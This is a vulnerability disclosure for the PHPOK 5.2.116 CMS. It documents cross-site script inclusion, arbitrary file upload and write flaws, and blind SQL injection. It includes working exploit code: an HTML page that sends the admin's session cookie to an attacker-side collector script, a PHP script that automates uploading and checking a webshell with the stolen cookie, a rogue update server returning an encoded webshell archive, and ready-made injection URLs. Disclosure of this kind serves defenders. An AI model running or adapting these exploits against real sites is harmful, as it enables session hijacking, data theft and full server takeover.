###PHPOK Multiple Vulnerability

####General description：

PHPOK is an enterprise station CMS system developed by PHP + MYSQL language.

**[1]PHPOK 5.2.116 has a Cross Site Script Inclusion(XSSI) vulnerability, remote attackers can exploit this vulnerability to obtain a user/admin cookie.**

**[2]PHPOK 5.2.116 has an arbitrary file upload vulnerability.Remote background admin privilege user can use this vulnerability to upload backdoor files to control the server.**

**[3]PHPOK 5.2.116 appsys_control.php file file_edit_save_f function has a php file arbitrary content write vulnerability.Remote background admin privilege user can use this vulnerability to control the server.**

**[4]PHPOK 5.2.116 appsys_control.php file install_f function has an arbitrary file upload vulnerability.Remote background admin privilege user can use this vulnerability to control the server.**

**[5]PHPOK 5.2.116 module_control.php file has an arbitrary file upload vulnerability.Remote background admin privilege user can use this vulnerability to control the server.**

**[5]PHPOK 5.2.116 has a SQL injection vulnerability in \framework\admin\order_control.php. Remote background admin privilege user can exploit the vulnerability to obtain database sensitive information.

**[6]PHPOK 5.2.116 has a SQL injection vulnerability in \framework\admin\open_control.php. Remote background admin privilege user can exploit the vulnerability to obtain database sensitive information.

_ _ _

**Environment: **
apache/php 7.0.12/PHPOK 5.2.116


_ _ _

**[1]**

In the index_f function of \framework\js_control.php:



Line 26 calls the js_base function, in this function:



Line 205 calls the output function, in this function:



Line 206 contains ```$this->dir_cache.$comp_id```, which is a template file. The template file in the current environment is /_data/tpl_admin/1_1dc3f922ff4ea116_abs.php, in this file:



Line 24 directly outputs the session_id to the file:



In summary, the attacker only needs to construct the page and include the vulnerability url. Once the admin accesses the page, the attacker can obtain the admin's cookie, ignoring httponly!

poc.html:
```
<html>
<script src="http://127.0.0.1:8003/admin.php?c=js&ext=admin.plugin.js&_noCache=0.1560224709">
</script>
<script>
var crossoriginget = new XMLHttpRequest();
var url = 'http://127.0.0.1:8001/get_referer.php?cookie='+session_id;
crossoriginget.open('GET', url, true);
crossoriginget.send();
</script>
</html>
```

Accept the cookie at http://127.0.0.1:8001/get_referer.php, the content of get_referer.php is:
```
<?php
echo 1;
date_default_timezone_set('Asia/Shanghai');

$fh = fopen("referer.txt", "a");

$ip        = $_SERVER["REMOTE_ADDR"];
$filename  = $_SERVER['PHP_SELF'];
$parameter = $_SERVER["QUERY_STRING"];
$method    = $_SERVER['REQUEST_METHOD'];
$time      =  date('Y-m-d H:i:s',time());
$post      = '';
$get       = $filename.'?'.$parameter;
$others    = '**********************************************************************';  
if($method == 'GET')
{
	$logadd    = 'TIME:'.$time."\r\n".'IP:'.$ip.' '.'URL:'.$filename.'?'.$parameter."\r\n".'cookie:';
}
if($method == 'POST') {
	$post      = file_get_contents("php://input",'r');
	$logadd    = 'TIME:'.$time."\r\n".'IP:'.$ip.' '.'URL:'.$filename.'?'.$parameter."\r\n".'METHOD:'.$method.' '.'DATA:'.$post."\r\n".'cookie:';
}

fwrite($fh, $logadd);
fwrite($fh,"\r\n");
if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])){
	fwrite($fh,"X_Forwarded_For:");
	fwrite($fh,var_export($_SERVER['HTTP_X_FORWARDED_FOR'], true)."\r\n");
}
if(isset($_SERVER['HTTP_REFERER'])){
	fwrite($fh,"Referer:");
	fwrite($fh,var_export($_SERVER['HTTP_REFERER'], true)."\r\n");
}
if(isset($_SERVER['HTTP_USER_AGENT'])){
	fwrite($fh,"USER_AGENT:");
	fwrite($fh,var_export($_SERVER['HTTP_USER_AGENT'], true)."\r\n");
}
fwrite($fh,$others."\r\n");
?>
```

When the admin accesses poc.html, attackers can get his cookie:





**[2]**

In the function unzip_f of \framework\admin\plugin_control.php:



Line 207 gets the file name, and line 222 determines if the file exists.
Line 225 calls phpzip to extract the .zip file.

Because the file content of the compressed package is not filtered, the attacker can upload the compressed package containing the webshell and obtain the server permission after decompressing.

Log in to the background and access ```/admin.php?c=plugin```
Click the local upload plugin:



Upload the .zip file containing webshell(setting.php) and get the return value: ```_cache/f234840c082641d2.zip```



Then request the following url to extract the .zip file:```/admin.php?c=plugin&f=unzip&filename=_cache/f234840c082641d2.zip&_=1560232103659```



Then visit the webshell: ```/plugins/ff1/setting.php?aaa=phpinfo()```



Using the vulnerabilities [1] and [2] together, you can automate the upload of the webshell as long as the admin accesses the following page!

ppp.html (the src address of the script tag fills in the website to be attacked, and the url fills in the address of the attacker)
```
<html>
<script src="http://127.0.0.1:8003/admin.php?c=js&ext=admin.plugin.js&_noCache=0.1560224709">
</script>
<script>
var crossoriginget = new XMLHttpRequest();
var url = 'http://127.0.0.1:8001/finalpoc.php?cookie='+session_id+'&domain='+location.host;
crossoriginget.open('GET', url, true);
crossoriginget.send();
</script>
</html>
```

finalpoc.php
```
<?php
if(isset($_GET['domain'])){
	if(isset($_GET['cookie'])){
		$ch = curl_init();

		$filePath = 'F:\tong\phpstudy\PHPTutorial\WWW\test\ff1.zip';
		$data     = array('name' => 'Foo', 'upfile' => '@' . $filePath);

		if (class_exists('\CURLFile')) {
			$data['upfile'] = new \CURLFile(realpath($filePath));
		} else {
			if (defined('CURLOPT_SAFE_UPLOAD')) {
				curl_setopt($ch, CURLOPT_SAFE_UPLOAD, FALSE);
			}
		}

		$domain = "http://".$_GET['domain'];
		$path = "/admin.php?c=upload&f=zip&_noCache=0.1560233823&name=ff1.zip";
		$url = $domain.$path;
		$post_data = array("upfile" => "F:\tong\phpstudy\PHPTutorial\WWW\test\ff1.zip",);
		$cookie = "PHPSESSION=".$_GET['cookie'];
		curl_setopt($ch , CURLOPT_COOKIE,$cookie);
		curl_setopt($ch , CURLOPT_URL , $url);
		curl_setopt($ch , CURLOPT_RETURNTRANSFER, 1);
		curl_setopt($ch , CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $data);

		$output = curl_exec($ch);
		curl_close($ch);
		$de_json = json_decode($output,TRUE);
		if($de_json){
			$filename = $de_json['content'];
			echo "uploaded ok:".$filename."\r\n";
			$url1 = $domain."/admin.php?c=plugin&f=unzip&filename=".$filename."&_=1560232103659";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url1);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			curl_setopt($ch , CURLOPT_COOKIE,$cookie);
			$data = curl_exec($ch);
			curl_close($ch);
			$shelltest = $domain."/plugins/ff1/setting.php?aaa=echo%201;";

			if(file_get_contents($shelltest) == 1){
				echo "shell ok.."."\r\n";
				$fh = fopen("./shell.txt", "a");
				$shell = $domain."/plugins/ff1/setting.php";
				fwrite($fh, $shell);
				fwrite($fh,"\r\n");
			}
		}
	}
}
?>
```

The directory where finalpoc.php is located needs to have ff1.zip.After the attack is successful, the shell.txt will be generated in the directory where finalpoc.php is located.

**[3]**

In the file_edit_save_f function of \framework\admin\appsys_control.php:



Line 491 gets the value of the variable id, and line 495 determines if the value of id exists.



Line 503 obtains the value of the variable title, line 504 obtains the file name of the last content to be modified,line 505 determines whether the file exists, and line 508 determines whether the file is writable.



Line 511 gets the file contents and line 512 writes the contents to the file.

Because the file name and content are controllable, the attacker can modify the contents of the .php file to control the server.

Log in to the background and visit```/admin.php?c=appsys&f=file_edit_save&id=fav&title=model.php&content=%3C?php%20phpinfo();?%3E```

The contents of /_app/fav/model.php will be modified to ```<?php phpinfo();?>```

Visit ```/_app/fav/model.php```



**[4]**

In the install_f function of \framework\admin\appsys_control.php:



Line 287 gets the value of the variable id.



Line 302 determines whether the file exists or not. If it does not exist, line 303 obtains the server address saved in "APP Application Configuration". Line 318 obtains the data returned by the server. Line 324 writes the server data to the. zip file.



Line 339 decompresses the .zip file.

In summary, the function will remotely read the server's file and write it to the .zip file, then unzip the .zip file to the website, so the attacker can use the vulnerability to generate the backdoor file to control the server.

Log in to the background and visit: ```/admin.php?c=appsys```

Click:





As shown in the figure, after setting this up, the function will initiate a request to ```http://127.0.0.1:8001/index.php```.

The contents of the http://127.0.0.1:8001/index.php file are as follows:
```
<?php
if(isset($_GET['id'])){
	echo  '{"status":1,"info":"UEsDBBQAAAAIALB9zU5oKo1CEQAAABEAAAAHAAAAZmYxLnBocLOxL8go4OUCEpl5afkamtYAUEsBAh8AFAAAAAgAsH3NTmgqjUIRAAAAEQAAAAcAJAAAAAAAAAAgAAAAAAAAAGZmMS5waHAKACAAAAAAAAEAGADz5N76uyHVAVEdNvK7IdUBUR028rsh1QFQSwUGAAAAAAEAAQBZAAAANgAAAAAA"}';
}
```

Then continue to visit as an admin: ```/admin.php?c=appsys&f=install&id=ss```, the wenshell file /_app/ss/ff1.php will be generated.

Visit ```/_app/ss/ff1.php```



**[4]**

In the import_f function of \framework\admin\module_control.php:



Line 700 gets the value of the variable zipfile.



Line 709 determines if the file exists;
Line 712 calls the unzip function to extract the .zip file to /_cache/.

Since there is no restriction on the files in the zip, the attacker can put a .php file in the zip file and generate a webshell file when unpacking.

After logging in as an admin account, visit ```/admin.php?c=module```



Click on "Module Import" in the upper right corner, then select the exp.zip file (which contains a setting.php file) and get the file name returned by the server:_cache/8c686ae55613e286.zip



Then visit: ```/admin.php?c=module&f=import&zipfile=_cache/8c686ae55613e286.zip```
, setting.php will be extracted to the /_cache/ directory.

Visit ```/_cache/setting.php?aaa=phpinfo(); ```to execute webshell:



**[5]**

In the index_f function of \framework\admin\order_control.php:



Lines 73 and 80 do not have single quotation mark protection when getting the value of a variable and putting it into a query statement



Line 105 calls the database query resulting in SQL injection.

After logging in to the background, access ```/admin.php?c=order&price_min=1%20and%201=2%20union%20select%20case%20when%20ascii(substring((select%20user()%20limit%200,1),1,1 ))=114%20then%20sleep(5)%20else%200%20end%23```

Query whether the first character of the current user name is r (ascii code is 114). If it is r, the request will be delayed by 5 seconds, otherwise it will not be delayed.

Can see that the request was delayed by 5 seconds.



**[6]**

In the upload_f function of \framework\admin\open_control.php:



Line 63 gets the value of the variable selected, and line 72 does not have single quote protection when assigning the value to the variable condition.



Line 107 calls the database query resulting in SQL injection.

After logging in to the background, access ```/admin.php?c=open&f=upload&id=ss&selected=1) and 1=2 union select case when ascii(substring((select user() limit 0,1),1,1))=114 then sleep(5) else 0 end,2,3,4,5,6,7,8,9,10,11,12,13,14,15%23```

Query whether the first character of the current user name is r (ascii code is 114). If it is r, the request will be delayed by 5 seconds, otherwise it will not be delayed.

Can see that the request was delayed by 5 seconds.

